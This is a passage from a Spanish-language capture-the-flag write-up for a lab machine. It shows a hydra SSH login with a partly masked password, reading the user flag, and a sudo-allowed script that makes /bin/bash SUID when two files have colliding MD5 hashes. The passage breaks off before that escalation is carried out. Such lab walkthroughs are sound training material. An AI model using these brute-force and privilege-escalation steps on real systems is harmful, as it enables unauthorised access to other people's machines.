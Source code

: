 ```bash
Hardware.Mon.#1..: Util: 23%

Started: Mon Mar 27 10:32:39 2023
Stopped: Mon Mar 27 10:33:09 2023
```

## SSH

Usando hydra me doy cuenta que el usuario es joe en minuscula y no mayuscula como me pensaba

```bash
❯ hydra -l joe -p *********an 10.0.2.35 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - 

[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://10.0.2.35:22/
[22][ssh] host: 10.0.2.35   login: joe   password: *********an
```

### user flag

```bash
joe@comet:~$ ls
coll  user.txt
joe@comet:~$ cat user.txt
*******************e6d0991c82616
```

## Escalada de Privilegios

Viendo un poco mas de la maquina

```bash
joe@comet:~$ sudo -l
Matching Defaults entries for joe on comet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User joe may run the following commands on comet:
    (ALL : ALL) NOPASSWD: /bin/bash /home/joe/coll
```

```bash
joe@comet:~$ cat coll 
#!/bin/bash
exec 2>/dev/null

file1=/home/joe/file1
file2=/home/joe/file2
md5_1=$(md5sum $file1 | awk '{print $1}')
md5_2=$(md5sum $file2 | awk '{print $1}')


if      [[ $(head -n 1 $file1) == "HMV" ]] && 
	[[ $(head -n 1 $file2) == "HMV" ]] && 
	[[ $md5_1 == $md5_2 ]] && 
	[[ $(diff -q $file1 $file2) ]]; then
    chmod +s /bin/bash
    exit 0
else
    exit 1
fi
```
